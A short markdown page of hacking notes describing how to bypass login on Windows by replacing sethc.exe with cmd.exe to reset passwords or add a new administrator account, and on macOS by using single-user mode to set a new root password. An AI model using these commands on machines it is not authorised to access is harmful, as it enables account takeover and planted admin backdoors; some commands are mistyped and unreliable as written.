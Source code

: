 # Hacking Windows / Mac

## Hacking Windows

{% embed url="https://www.microsoft.com/en-us/evalcenter/try" caption="Windows ISO images" %}

### Let’s see how to ethically hack a windows box

* Get a legalWindows \(or other\) boot disk
* Use 2 ‘special’ keys, 2 reboots, and 4 terminal commands to reset the password or create a new Admin user
  * Use f2/DEL/f12 to boot from Windows install disk.
    * Click Troubleshoot. Click Command Prompt. 
  * In the CMD window, type these commands:
    * cd c:\windows\system32
    * copy sethc.exe sethc.bak
    * copy cmd.exe sethc.exe
  * Restart computer. At the login screen where you enter your password, press the Shift key five times 
    * CMD window appears
  * To change your existing password, type:
    * net user username password
  * To add a new user and promote to Administrator:
    * net user ironman Jarvis /add
    * net localgroup administrators ironman /add

## Hacking MAC

* One reboot
* One special key combo \(Command+S\)
* At the Terminal, type clear to clear the screen, then:
  * /sbin/fsck–fy
  * /sbin/mount -uw/ 
  * launchctlload /System/Library/LaunchDaemons/com.apple.opendirectoryd.plist
  * passwd
* Enter a new ‘root’ password, twice
  * exit
* Log in as root using the new password

